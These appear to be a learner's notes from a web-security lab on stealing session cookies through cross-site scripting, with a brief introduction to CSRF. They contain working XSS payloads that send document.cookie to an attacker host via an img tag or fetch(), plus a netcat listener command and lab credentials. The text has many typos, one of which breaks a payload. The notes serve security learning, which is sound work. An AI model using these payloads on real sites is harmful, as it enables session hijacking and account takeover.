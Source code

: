 A sample HTTPS>HTTPS payload example can be found:
`<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(documene.cookie)}">`)'>test</h1>`

- Simulate the Victim:
Email: smallfrog576
Password: guitars

Navigate to [http://xss.htb.net/profile?email=ela.stienen@example.com.], this is the attacker-crafted public profile that hosts our cookie-stealing payload.
Terminate the PHP server with Control+c and the victim cookie  will reside inside [cookieLog.txt].

### Obtaining Session Cookie via XSS (Netcat Edition):
Before we simulate the attack, let us place the below payload in the Country Filed of ELa Stienen and click save. There are no specific requierement for the payload. We just used a less common and a bit more advanced one since u may
be requied for payload.

`nc -nlvp 8000`

Open a New Private Window and navigate to http://xss.htb.net/profile?email=ela.stienen@example.com, simulating what the victim would do.
We don't necessarily have to use the [winddow.location()] object that cause victims to get redirected. We can use [fetch()], which can fetch data cookie and send
it oir server without any redirects.
`<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>`

Exercise -  If xss.htb.net was utilizing SSL encryption, would an attacker still be able to capture cookies through XSS? Answer format: Yes or No
YES

___

## Cross-Site Forgery [CSRF or XSRF]

Cross-site resquest are common in web app and are used for multiple legitimate purpouses.
CSRF or XSRF is an attack that forces and end-user to execute inadvertent on a web app on wthch they are currently authentication. This attack is usually mounted with help of attacker-crafted web pages that the victim must visit or interact with, leveraing
the lack of anti-CSRF securioty mechanism. These web pages contain malicius request that essentially inherit the identitity and privilege of the victim to perform an undersired funtion on the victim's behalf.
A sussucessful CSRF attack can compromise end-user and operations when it targets a regular use, If the targeted end-user is and admin, one a CSRF attack can compromise the entire web app.

During the CSRF attacks, the attacker does not need to read the server's response to the malicius cross-site request. This means that [Same-Origin Policy] cannot be considered a security mechanism against CSRF attacks.

> [!IMPORTANT] According to Mozilla, the Same-Origin Policy is a critical mechanims that restictes how document or script loaded by one origin can interact with a resource from another origin.
> The Same-Origin policy will not allow an attacker to read the server's response to a malicius cross-site request.

A web app is vulnerable to CSRF attacks when:
1. All paramerters required for the targeted request can be determine or guessed by the attacker.
2. The app session managment is solely based on HTTP cookie, which are automatically included in browser request.
